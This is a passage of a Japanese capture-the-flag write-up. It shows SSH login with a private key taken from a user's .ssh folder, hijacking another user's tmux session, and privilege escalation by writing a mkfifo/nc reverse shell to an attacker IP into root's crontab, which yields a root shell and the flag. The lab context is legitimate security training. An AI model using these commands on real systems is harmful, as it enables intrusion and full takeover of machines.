

これは、`ssh-keygen` などでSSHに使用する鍵を生成した場合のデフォルトの保存場所となっていたり、SSHで公開鍵認証を行った際にデフォルトで秘密鍵を確認するディレクトリとなっていたりするためです。

ここで `.ssh` の中身を確認すると、`id_ed25519` が存在しました。これは、 SSH の秘密鍵ファイルです。



`/home/ayumu/.ssh/id_ed25519` を表示させて、これを秘密鍵として center のマシンに `ayumu` ユーザでログインを試みます。



SSH からのログインに成功し、シェルアクセスを得られました。

```shell=
┌──(kali㉿kali)-[~]
└─$ vim id_ed25519                                                                                   
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ chmod 600 id_ed25519 
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ ssh -i id_ed25519 ayumu@<target_ip>
The authenticity of host '<target_ip> (<target_ip>)' can't be established.
ED25519 key fingerprint is SHA256:CSEFIjZ9SuZoUDcRhkeZMIB1Y4uhUWeWjohxFUEW9S0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '<target_ip>' (ED25519) to the list of known hosts.
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-60-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed Jun 11 03:05:55 PM UTC 2025

  System load:            0.0
  Usage of /:             42.4% of 9.75GB
  Memory usage:           19%
  Swap usage:             0%
  Processes:              236
  Users logged in:        1
  IPv4 address for ens33: <target_ip>
  IPv6 address for ens33: <target_ipv6>


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Wed Jun 11 14:08:47 2025 from <attacker_ip>
ayumu@ayumi:~$ whoami
ayumu
```

## Privilege Escalation
root ユーザになるために、マシンの内部に対する列挙を行います。

ayumuユーザから閲覧できるディレクトリの1つである `/tmp` ディレクトリを確認すると、ログインした `ayumu` ユーザはどうやら `tmux` を使用してセッションを管理していることがわかります。

```shell=
$ ls -la /tmp/
total 68
drwxrwxrwt 15 root  root  12288 Jun 11 14:09 .
drwxr-xr-x 23 root  root   4096 Jun 10 14:55 ..
drwxrwxrwt  2 root  root   4096 Jun 10 15:03 .font-unix
drwxrwxrwt  2 root  root   4096 Jun 10 15:03 .ICE-unix
drwx------  3 root  root   4096 Jun 10 15:04 snap-private-tmp
drwx------  3 root  root   4096 Jun 10 15:03 systemd-private-6b2833cf547b4daf97eb5bef50df5967-ModemManager.service-TjjDLU
drwx------  3 root  root   4096 Jun 10 15:03 systemd-private-6b2833cf547b4daf97eb5bef50df5967-polkit.service-d8Gxtt
drwx------  3 root  root   4096 Jun 10 15:03 systemd-private-6b2833cf547b4daf97eb5bef50df5967-systemd-logind.service-IuVway
drwx------  3 root  root   4096 Jun 10 15:03 systemd-private-6b2833cf547b4daf97eb5bef50df5967-systemd-resolved.service-HkoL8N
drwx------  3 root  root   4096 Jun 10 15:03 systemd-private-6b2833cf547b4daf97eb5bef50df5967-systemd-timesyncd.service-5cU8ko
drwx------  3 root  root   4096 Jun 11 14:04 systemd-private-6b2833cf547b4daf97eb5bef50df5967-upower.service-w47p19
drwx------  2 ayumu ayumu  4096 Jun 11 14:08 tmux-1001
drwx------  2 root  root   4096 Jun 10 15:03 vmware-root_844-2688685076
drwxrwxrwt  2 root  root   4096 Jun 10 15:03 .X11-unix
drwxrwxrwt  2 root  root   4096 Jun 10 15:03 .XIM-unix
```


試しに、`tmux a` を実行して tmux セッションに接続してみます。すると、Webサーバたちを管理しているセッションを確認できました。


ここからさらに、`Ctrl-B + s` のショートカットを押して tmux のセッション一覧を閲覧します。



すると、`admin` というセッションに `samezima` というユーザで管理しているシェルが存在していることがわかります。

続いて、samezima ユーザで列挙を行います。 
ユーザはsudoを用いて管理者権限でコマンドを行えるように設定をしていることがあります。そのため、 `sudo -l` を実行して、管理者権限でコマンドが実行できるようになっていないか確認してみます。

```shell=
$ sudo -l
Matching Defaults entries for samezima on ayumi:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User samezima may run the following commands on ayumi:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/crontab -u root -l, /usr/bin/crontab -u root -e
```

どうやら、root の crontab がパスワード無しで実行できるよう設定されているようです。これは権限昇格に利用できますね。

[Reverse Shell Generator](https://www.revshells.com/) を使って下記のような reverse shell のコマンドを作り、crontab に追記します。
```shell=
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <attacker_ip> 443 >/tmp/f
```

```shell=
$ date
Wed Jun 11 15:25:54 UTC 2025
$ sudo crontab -u root -e
```

問題なく編集ができたので、一度だけ実行される cronjob を記述しました(下記は 6/11 15:35 に実行する例。date コマンドからUTC+00:00の時刻で動いているサーバであることに注意してください。)。

```shell
35 15 11 06 * rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <attacker_ip> 443 >/tmp/f
```


あとは、nc などを使ってコネクトバックを待機します。しばらくするとリバースシェルが実行され、無事にroot.txtを取得できました。これで本チャレンジは終了です。

```shell=
$ nc -lnvp 443
listening on [any] 443 ...
connect to [<attacker_ip>] from (UNKNOWN) [<target_ip>] 46732
sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat root.txt
flag{Y0ur_r1ght_h4nd_15_4_b4d455_h4ck3r_ju5t_l1k3_m3!!}

```
### flag(root.txt)
`flag{Y0ur_r1ght_h4nd_15_4_b4d455_h4ck3r_ju5t_l1k3_m3!!}`